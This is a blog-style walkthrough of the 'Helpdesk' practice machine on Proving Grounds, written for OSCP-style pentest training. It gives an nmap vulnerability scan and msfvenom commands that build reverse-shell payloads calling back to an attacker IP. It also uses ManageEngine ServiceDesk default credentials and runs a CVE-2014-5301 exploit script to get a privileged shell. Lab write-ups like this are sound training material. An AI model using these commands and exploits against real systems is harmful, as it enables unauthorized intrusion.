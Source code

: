 ```yaml
---
title: Helpdesk Walkthrough - Proving Grounds
description: "Walkthrough of the Helpdesk machine from Proving Grounds "
author: Cyber Operator
date: 2024-07-24T14:48:18.308Z
tags:
  - Tags
---
```

# Helpdesk Exploitation Walkthrough

This machine is under the "Easy" level of Proving Grounds, it is valuable for general pentest practice or for exam preparation (such as OSCP etc).  This walkthrough may be completed under various sessions, you may see the target IP address change.

Step by step:

1. ## Scan with NMAP:

I like to do two nmap scans, one a very simple pass with the standard options.  This is mostly to have something to look at while waiting for the more detailed scan results, which follow this command:

`nmap -sC -sV --script vuln -p- [target IP]`

This will do a version scan, basic vulnerability check and scan all ports.  It takes time, good idea to let it run while we explore based on the simple scan results.

Here are the detailed scan results:

![](/static/img/screenshot-2024-07-24-at-11.26.36 am.png)

![](/static/img/screenshot-2024-07-24-at-11.27.38 am.png)

Right from the results, we see that there is a webserver in port 8080 and that there are some vulnerabilities (maybe user input fields, or a form).  So let's visit the site (IP:port combination) to see what's there:

![](/static/img/screenshot-2024-07-24-at-11.30.46 am.png)

There may be something there, let's see what else we can find first.  We see that this is a Windows Server, 2008 R2, RPC port, Microsoft Terminal service, SMB (an interoperability service) and some magic found in the form of CVE-2009-3103 "execute arbitrary code".  As interesting as the 8080 server is, this one seems like a juicier starting point so let's start there.

## 2. Exploitation

We find an exploit in Exploit DB, including the command to use msfvenom to generate the required shellcode:

![](/static/img/screenshot-2024-07-24-at-11.43.17 am.png)

Specifically, we need to download the exploit code, then replace the shellcode in the download with our own generated shellcode.  We will generate that shellcode using the following command (can be found as a comment on the exploit code)

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=[attacker IP] LPORT=[attacker port, such as 443]  EXITFUNC=thread  -f python`

Next, we generate our shellcode for our payload:

![](/static/img/screenshot-2024-07-24-at-11.50.17 am.png)

We now copy our payload into our downloaded exploit code, which we can edit using a text edit tool, here we used nano:

![](/static/img/screenshot-2024-07-24-at-11.55.49 am.png)

Now we have a ready exploit!  You can execute from there but we probably never needed to get here because there is an even easier way!

Before executing that, let's go back to our other identified vulnerability on the webserver (why are we doing this: it always helps to have multiple attack surfaces!)

Here is the lesson, always use Google and never forget to try default credentials!  Here, we know that the service used is ManageEngine Service desk.  So a simple Google search for default credentials reveals administrator:administrator!

![](/static/img/screenshot-2024-07-24-at-12.24.24 pm.png)

And we are successfully into the service:

![](/static/img/screenshot-2024-07-24-at-12.27.38 pm.png)

We are authenticated, which increases our list of potential exploits.  Let's search using searchsploit to see what's out there:

![](/static/img/screenshot-2024-07-24-at-12.42.35 pm.png)

CVE-2014-5301 looks promising!

![](/static/img/screenshot-2024-07-24-at-12.47.26 pm.png)

We create a reverse shell package:

`msfvenom -p java/shell_reverse_tcp LHOST=192.168.49.52 LPORT=4444 -f war > shell.war`

Then download our exploit:

![](/static/img/screenshot-2024-07-24-at-12.53.55 pm.png)

And execute the exploit:

`python3 CVE-2014-5301.py [target IP] 8080 administrator administrator shell.war`

![](/static/img/screenshot-2024-07-24-at-12.59.21 pm.png)

And we get a connection with a privileged shell on our listener window!

![](/static/img/screenshot-2024-07-24-at-1.00.50 pm.png)

Then we move to the Administrator's Desktop and find our flag.

![](/static/img/screenshot-2024-07-24-at-1.02.27 pm.png)